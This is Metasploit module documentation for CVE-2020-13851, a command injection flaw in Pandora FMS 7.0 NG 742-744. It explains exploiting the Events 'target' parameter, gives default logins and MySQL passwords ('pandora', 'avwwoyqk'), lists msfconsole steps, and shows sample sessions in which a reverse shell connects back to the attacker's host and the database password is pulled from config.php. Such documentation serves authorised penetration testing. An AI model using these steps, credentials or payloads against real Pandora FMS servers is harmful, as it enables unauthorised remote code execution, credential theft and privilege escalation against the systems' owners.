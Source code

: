 ## Vulnerable Application
This module exploits a vulnerability (CVE-2020-13851) in Pandora FMS versions 7.0 NG 742, 7.0 NG 743, and 7.0 NG 744
(and perhaps older versions) in order to execute arbitrary commands.

The module first connects to the target's `index.php` page in order to verify the version number, which should be displayed here.
If the version indicates the target is likely vulnerable, the module will try to authenticate using the credentials provided by the user.
If no custom credentials are provided, the module will use the default Pandora FMS credentials, which are `admin:pandora`.

After authenticating, the module attempts to exploit CVE-2020-13851, which is a command injection vulnerability
in the `Events` feature of Pandora FMS. Specifically, this flaw allows users to execute arbitrary commands via
the `target` parameter in HTTP POST requests to the `Events` function.
In order to obtain remote code execution, the module will attempt to issue a malicious HTTP POST request to the `Events` function,
with the `target` parameter set to contain the payload.

If a shell is obtained, the module will try to obtain the local MySQL database password via a simple `grep` command on the plaintext
`/var/www/html/pandora_console/include/config.php` file.
The default MySQL administrative user is `root` and the default password for the official CentOS virtual appliance ISO is `pandora`.
For the official Docker container, the default MySQL password is `avwwoyqk`. This password can subsequently be used
in order to query the database and to escalate the privilege of any Pandora FMS account to an administrator.

Valid credentials for a Pandora FMS account are required for the module to work. The account does not need to have admin privileges.
This module has been successfully tested on Pandora 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version).

Vulnerable software for testing can be download here: https://sourceforge.net/projects/pandora/.
The easiest ways to install Pandora FMS are as a Docker image or as an ISO. Detailed instructions are available here:
https://pandorafms.com/docs/index.php?title=Pandora:Documentation_en:Installing.
The ISO installation instructions are under sections 1.8 and 1.9, those for Docker are under 1.10.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/pandora_fms_events_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Pandora FMS account]`
6. Do: `set PASSWORD [password for the Pandora FMS account]`
7. Do: `set LHOST [IP]`
8. Do: `exploit`

## Options
### PASSWORD
The password for the Pandora FMS account to authenticate with. This option is required. The default value is `pandora`.

### TARGETURI
The base path to Pandora FMS. The default value is `/pandora_console/`.

### USERNAME
The username for the Pandora FMS account to authenticate with. This option is required. The default value is `admin`.

## Scenarios
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version). Target: Linux (x64)
```
msf5 exploit(linux/http/pandora_fms_events_exec) > show options

Module options (exploit/linux/http/pandora_fms_events_exec):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   PASSWORD   pandora            yes       Password to authenticate with
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.13       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                 yes       The target port (TCP)
   SRVHOST    0.0.0.0            yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080               yes       The local port to listen on.
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pandora_console/  yes       Base path to Pandora FMS
   URIPATH                       no        The URI to use for this exploit (default is random)
   USERNAME   admin              yes       Username to authenticate with
   VHOST                         no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Sending stage (3012516 bytes) to 192.168.1.13
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Meterpreter session 18 opened (192.168.1.12:4444 -> 192.168.1.13:39208) at 2020-07-01 10:14:44 -0400

meterpreter > 
[*] Tip: You can try to obtain the MySQL DB password via the shell command `grep dbpass include/config.php`. The default privileged user is `root`.
getuid
Server username: no-user @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
meterpreter >
```
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version). Target: Linux (cmd)
```
msf5 exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Command shell session 1 opened (192.168.1.12:4444 -> 192.168.1.13:38776) at 2020-06-16 13:01:52 -0400
[*] Trying to read the MySQL DB password via `cat include/config.php | grep dbpass`. The default privileged user is `root`.

$config["dbpass"]="pandora";
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
